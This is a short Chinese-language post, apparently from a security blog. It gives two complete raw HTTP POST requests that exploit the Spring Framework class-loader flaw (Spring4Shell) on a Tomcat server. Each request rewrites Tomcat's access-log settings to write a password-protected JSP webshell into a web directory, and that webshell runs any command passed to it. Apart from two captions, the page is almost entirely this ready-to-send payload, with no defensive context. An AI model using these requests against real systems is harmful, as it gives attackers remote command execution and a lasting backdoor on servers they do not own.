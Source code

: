   
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXAey1zSCrD4wRLBaiciaxbAZOGXAdpdpKziaibgDkbkrxAhRJQS50fsFaPc3WciaQ5OTRQgdmyicI6AUvA/640?wx_fmt=png "")  
  
写入webshell：webapps/ROOT  
```
POST /handling_form_submission_complete_war/greeting HTTP/1.1
Host: 192.168.80.150:8080
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 762

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXAey1zSCrD4wRLBaiciaxbAZILibru7iaRIicibNp6YxhxBRhLjcRoOIRu0PKqrmXgEia7HmhhTt8NPsRfw/640?wx_fmt=png "")  
  
写入地址：  
```
C:\JAVA\Tomcat\apache-tomcat-8.5.72\webapps\handling_form_submission_complete_war
POST /handling_form_submission_complete_war/greeting HTTP/1.1
Host: 192.168.80.150:8080
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 831

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=C:\JAVA\Tomcat\apache-tomcat-8.5.72\webapps\handling_form_submission_complete_war&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```  
  